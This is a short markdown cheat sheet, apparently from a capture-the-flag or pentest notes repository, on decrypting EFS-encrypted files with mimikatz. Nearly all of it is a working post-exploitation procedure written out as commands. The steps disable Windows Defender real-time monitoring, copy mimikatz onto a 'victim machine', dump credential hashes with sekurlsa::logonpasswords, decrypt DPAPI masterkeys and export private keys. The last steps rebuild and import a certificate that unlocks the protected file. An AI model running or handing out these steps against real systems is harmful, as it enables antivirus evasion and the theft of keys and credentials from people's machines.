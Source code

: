 ## Decrypt EFS encrypted files with mimikatz

## Requirements: System/root level access

### Example: We have a root flag that we can't read even as the SYSTEM user. We do the steps below:

#### 1) cipher /c root.txt (It will show you which users can decrypt the file, as well as the certificate thumbprint to export it to a .der file with mimikatz later)

#### 2) powershell set-mppreference -disablerealtimemonitoring $true (Disable AV to safely download mimikatz to victim machine)

#### 3) Transfer mimikatz.exe to the machine

#### 4) ./mimikatz.exe

#### 5) privilege::debug

#### 6) crypto::system /file:"C:\Users\USER\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates\CERTIFICATE_STRING /export (Obtains and exports the public key to a .der file.) 

#### 7) dpapi::capi /in:"C:\Users\USER\AppData\Roaming\Microsoft\Crypto\RSA\USER_SID\RANDOM_NUMBERS" (Verify that the private key is located in this container) Hint: the pUnique name is the same as earlier container name.

#### 8) dpapi::masterkey /in"C:\Users\USER\AppData\Roaming\Microsoft\Protect\USER_SID\ENCRYPTED_MASTERKEY_GUID /password:PASSWORD or /hash:SHA1_HASH HINT: We can also use the SHA1 hash to decrypt the masterkey. We can dump the SHA1 of the user with sekurlsa::logonpasswords command.

#### 9) dpapi::capi /in:"C:\Users\USER\AppData\Roaming\Microsoft\Crypto\RSA\USER_SID\RANDOM_NUMBERS" /masterkey:DECRYPTED_MASTERKEY (Obtains the private key)

#### 10) Transfer the .der  and the .pvk files to attacking machine with the method of your choice

#### 11) Attacking machine: openssl x509 -inform DER -outform PEM -in PUBLIC_KEY.der -out public.pem

#### 12) Attacking machine: openssl rsa -inform PVK -outform PEM -in PRIVATE_KEY.pvk -out private.pem

#### 13) openssl pkcs12 -in public.pem -inkey private.pem -password pass:mimikatz -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx (Generate a certificate .pfx file by using the public and private .pem files we previously generated from the files extracted by mimikatz)

#### 14) Transfer the cert.pfx file to the machine

#### 15) Victim machine: certutil -user -p mimikatz -importpfx cert.pfx NoChain,NoRoot (Import the .pfx certificate.)

#### 16) Now we can finally read the root flag :p
